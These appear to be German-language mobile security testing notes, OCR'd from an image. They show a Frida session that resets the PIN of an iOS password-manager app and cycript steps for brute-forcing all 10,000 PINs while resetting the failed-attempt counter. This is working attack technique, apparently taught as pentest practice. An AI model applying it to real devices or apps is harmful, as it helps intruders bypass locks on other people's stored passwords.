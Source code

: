 > Python 2.7.10 (default, Oct 23 2015, 19:19:21)
>
> [GCC 4.2.1 Compatible Apple LLVM 7.0.0 (clang-700.0.59.5)] on darwin
>
> Type "help", "copyright", "credits" or "license" for more information.
>
> .>>> import frida,sys
>
> .>>> frida.get_device_manager().enumerate_devices()
>
> [Device(id="local", name="Local System", type='local'),
> 
> Device(id="tcp", name="Local TCP", type='remote'),
> 
> Device(id="460683e35xxxx02526d", name="iPhone", type='tether')]
> 
> .>>> jscode = """
>
> ... var AppDelegate = ObjC.use("AppDelegate");
>
> ... AppDelegate.newPassword_("1111");
>
> ... """
>
> .>>> process = frida.get_device_manager().enumerate_devices()[2].attach(793)
>
> .>>> session = process.session
> 
> .>>> script = session.create_script(jscode)
> 
> .>>> script.load()

1. Brute-Forcing der PIN im Hintergrund
- sinvoll wenn mehrere Apps mit PIN gesperrt sind
- *cycript* und *class-dump*
- Pin-Test-Script erstellen (siehe unten)
  - Schleife um alle 10.000 PINs zu testen
  - Wenn vorhanden Zähler falscher Versuche zurücksetzen
> #. zuerst benötigen wir die PID der zu analysierenden Applikation
>
> $: ps aux | grep Password\ Keeper\ Lite mobile 793 17.8 4.2 646236 43688 ?? Ss 5:42PM 0:04.03 /var/mobile/Containers/Bundle/Application/7AA5C9A9-633A-462E-8479-8C4952C79F84/Password Keeper Lite.app/Password Keeper Lite
>
> #. nun verbinden wir cycript mit der laufenden Applikation
>
> $: cycript -p 793
>
> cy:
>
> #. in diesem Schritt prüfen wir eine PIN
>
> cy: [UIApp.delegate checkPassword:"4711"]
>
> 0
>
> cy:
